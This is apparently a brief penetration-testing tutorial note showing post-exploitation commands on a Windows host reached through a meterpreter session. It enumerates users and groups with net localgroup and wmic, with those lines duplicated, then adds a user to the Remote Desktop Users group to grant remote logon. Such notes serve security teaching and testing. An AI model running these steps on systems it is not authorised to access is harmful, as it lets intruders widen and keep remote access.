


Remotely from the Attacker machine (shell cmd)
Remotely from the Attacker machine
1. Information gathering
meterpreter > shell
C:\Users\danie\Desktop> net localgroup users #all the users
C:\Users\danie\Desktop> wmic group where localaccount="true" get name #list all groups
C:\Users\danie\Desktop> net localgroup "Remote Desktop Users" #members in this group are granted the right to logon remotely
C:\Users\danie\Desktop> net localgroup users #all the users
C:\Users\danie\Desktop> wmic group where localaccount="true" get name #list all groups
C:\Users\danie\Desktop> net localgroup "Remote Desktop Users" #members in this group are granted the right to logon remotely
2. Add user to the "Remote Desktop Users" group
C:\Users\danie\Desktop> net localgroup "Remote Desktop Users" danie /add

